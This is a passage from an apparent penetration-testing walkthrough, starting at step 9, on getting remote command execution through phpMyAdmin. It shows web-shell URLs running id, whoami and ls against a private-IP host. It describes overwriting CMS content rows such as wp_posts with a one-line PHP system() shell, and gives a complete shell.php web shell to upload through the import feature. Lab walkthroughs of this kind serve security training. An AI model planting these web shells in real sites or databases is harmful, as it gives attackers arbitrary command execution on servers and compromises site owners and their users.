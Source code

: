    9. After successful execution, access your web shell:

```bash
http://192.168.74.162/shell.php?cmd=id

http://192.168.74.162/shell.php?cmd=whoami

http://192.168.74.162/shell.php?cmd=ls%20-la
```

   ![phpMyAdmin SQL Injection](/images/phpmyadmin-sql.png)
   ![Web Shell Execution](/images/webshell-execution.png)
   **Method 2: Modify Existing Database Content**

   If the direct file write method doesn't work due to permissions:


10. In phpMyAdmin, browse the available databases in the left panel
11. Look for content management databases (like WordPress, Joomla, Drupal)
12. Find tables that store page content (common names: wp_posts, content, pages, articles)
13. Select a table and click "Browse"
14. Find a row with content that's likely displayed on the website
15. Click "Edit" on that row
16. Replace the content with your PHP web shell code:

```php
<?php system($_GET['cmd']); ?>
```

   17. Save the changes
   18. Visit the page on the website and append `?cmd=id` to the URL
   ![Database Content Modification](/images/phpmyadmin-content-edit.png)
   **Method 3: Using phpMyAdmin's Import Feature**

   19. Create a file named `shell.php` on your local machine with the following content:

```php
<?php

// Simple PHP Web Shell

if(isset($_GET['cmd'])) {

   echo "<pre>";

   system($_GET['cmd']);

   echo "</pre>";

} else {

   echo "Usage: ?cmd=command";

}

?>
```
